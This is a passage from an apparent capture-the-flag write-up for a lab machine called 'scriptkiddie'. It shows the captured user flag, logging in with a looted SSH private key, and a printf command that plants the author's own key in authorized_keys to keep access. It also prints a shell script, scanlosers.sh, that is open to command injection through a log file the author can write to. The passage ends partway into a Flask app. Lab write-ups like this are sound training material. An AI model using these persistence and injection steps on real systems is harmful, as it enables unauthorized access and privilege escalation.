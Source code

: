 ```plaintext
drwxr-xr-x 9 kid  kid 4.0K Feb  3 07:40 .msf4
-rw-r--r-- 1 kid  kid  807 Feb 25  2020 .profile
drwx------ 2 kid  kid 4.0K Feb  3 07:40 .ssh
-rw-r--r-- 1 kid  kid    0 Jan  5 11:10 .sudo_as_admin_successful
drwxrwxr-x 5 kid  kid 4.0K Feb  3 11:03 html
drwxrwxrwx 2 kid  kid 4.0K Feb  3 07:40 logs
drwxr-xr-x 3 kid  kid 4.0K Feb  3 11:48 snap
-r-------- 1 kid  kid   33 Jan  5 20:45 user.txt

$ cat ../user.txt # /home/kid/user.txt
4cbc*************************08a

```

## Privilege Escalation of Machine : from kid to pwn

Let's find if there is another user flag:

```plaintext
kid@scriptkiddie:~$ find / -name user.txt -type f 2>/dev/null
/home/kid/user.txt
```

No there isn't. But we can loot kid's private key to have a better shell.

```
$ chmod 600 id_rsa_kid
$ ssh kid@10.129.77.135 -i id_rsa_kid
```

Note: has been patched, there is no longer some ssh key but we can add ours:
`printf %s 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINDGLndVd+2+y7FE7nVTrMtBvPiLNTMgObVw8s7d9B8n cyfun@penarch' >> /home/kid/.ssh/authorized_keys`.

There is another user named `pwn` owning a script: `/home/pwn/scanlosers.sh`.

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

We have write access to `/home/kid/logs/hackers`. We can see that our date and
IP is written to this file when we try to bypass the searchploit function:

`/home/kid/html/app.py`

```python
import datetime
import os
import random
import re
import subprocess
import tempfile
import time
from flask import Flask, render_template, request
from hashlib import md5
from werkzeug.utils import secure_filename

regex_ip = re.compile(r'^(?:(?:25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(?:25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$')
```
